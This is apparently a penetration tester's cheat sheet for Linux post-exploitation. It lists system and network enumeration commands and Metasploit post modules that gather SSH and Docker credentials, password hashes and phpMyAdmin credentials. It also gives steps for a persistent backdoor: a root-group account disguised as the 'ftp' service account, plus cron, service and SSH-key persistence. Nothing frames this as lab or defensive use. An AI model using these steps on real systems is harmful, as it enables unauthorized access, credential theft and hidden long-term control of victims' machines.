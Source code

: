 Interesting webshells for reverse: `/usr/share/webshells`
# Enumerations:
```
cat /etc/passwd
cat /etc/*release
cat /etc/hosts
cat /etc/resolv.conf #dns server
groups
cat /etc/*issue
uname -a
ifconfig
ip a
netstat -antp
ss
ps aux
env
top
crontab -l
cat /etc/cron
cat /etc/shells
```

```
use post/linux/gather/enum_configs
use post/multi/gather/env
use post/linux/gather/enum_network
use post/linux/gather/enum_protections
use post/linux/gather/enum_system
use post/linux/gather/checkcontainer
use post/linux/gather/checkvm
use post/linux/gather/enum_users_history

# In Meterpreter:
ps

```

# Privilege escalation

`ps aux` to check running programs or check with `cat` running scripts. Check -V on the programs and search for possible exploits in msf database. Set proper path for the executable and shell bind LPORT and LHOST within the session.

# Post exploit 2

```
- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump
- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk
- post/linux/gather/enum_xchat
- post/linux/gather/enum_configs
- post/linux/gather/enum_network
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets
- post/linux/manage/sshkey_persistence
```

# Persistence

After getting a root it's good to create a new account that looks like a service account f.e. `ftp` , set password and add to root group:

```
useradd -m ftp -s /bin/bash
passwd ftp
usermod -aG root ftp
usermod -u 15 ftp #changes id for user
```

`search platform:linux persistence`
- cron_perstitence (try different targets and non-conflicting LPORT)
- service_persistence (try different targets)
- sshkey_persistence is top!

SSHKEY: set folders, session and username to create key and copy the ssh key from loot. 

```
vim ssh_key (paste)
chmod 0400 ssh_key
ssh -i ssh_key username@IPADDRESS
```



